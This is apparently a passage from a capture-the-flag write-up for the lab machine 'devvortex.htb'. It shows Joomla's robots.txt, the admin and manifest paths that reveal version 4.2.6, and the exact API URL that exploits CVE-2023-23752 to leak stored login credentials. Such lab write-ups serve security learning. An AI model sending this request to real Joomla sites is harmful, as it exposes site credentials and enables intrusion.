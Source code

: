 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~



`http://dev.devvortex.htb/administrator/` is a Joomla admin login page

`http://dev.devvortex.htb/administrator/manifests/files/joomla.xml` exposes version of Joomla

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
<extension type="file" method="upgrade">
<name>files_joomla</name>
<author>Joomla! Project</author>
<authorEmail>admin@joomla.org</authorEmail>
<authorUrl>www.joomla.org</authorUrl>
<copyright>(C) 2019 Open Source Matters, Inc.</copyright>
<license>
GNU General Public License version 2 or later; see LICENSE.txt
</license>
<version>4.2.6</version>
----------------------SNIPPED----------------------------
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


*Joomla 4.2.6* is vulnerable to an authentication bypass which results in information leak (*CVE-2023-23752*), which if I go to `http://dev.devvortex.htb/api/index.php/v1/config/application?public=true`, it will reveal the login credentials
